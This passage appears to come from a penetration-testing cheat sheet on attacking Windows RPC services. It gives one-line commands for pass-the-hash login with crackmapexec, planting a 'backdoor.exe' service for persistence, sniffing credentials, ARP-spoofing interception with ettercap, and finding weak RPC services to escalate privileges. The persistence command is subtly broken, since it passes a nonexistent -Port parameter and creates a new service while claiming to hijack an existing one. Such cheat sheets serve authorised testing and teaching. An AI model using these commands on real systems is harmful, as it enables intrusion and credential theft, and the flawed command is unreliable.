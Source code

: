     ```bash
    crackmapexec smb <target_ip> -u <username> -H <NTLM_hash> --rpc-enum
    ```
* **Description:** Use stolen NTLM hashes to authenticate to RPC services without needing the plaintext password.

### Persistence

#### Service Hijacking

*   **Tool:** \[\[Metasploit]], \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```bash
    New-Service -Name "HijackedRPC" -Binary "C:\backdoor.exe" -Port 135
    ```
* **Description:** Hijack an existing RPC service to establish persistence within the target environment.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port <port>"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[ettercap]], \[\[BetterCap Cheat Sheet]]

    ```bash
    ettercap -Tq -i <interface> -M arp:remote /<target_ip>/ /<server_ip>/
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

### Privilege Escalation

#### Abuse of Misconfigured RPC Services

*   **Tool:** \[\[Metasploit]], \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```bash
    Get-Service | Where-Object { $_.DisplayName -like "*RPC*" }
    ```
* **Description:** Identify misconfigured or poorly secured RPC services that can be exploited for privilege escalation.

### Lateral Movement, Pivoting, and Tunnelling

#### Pivoting Through RPC
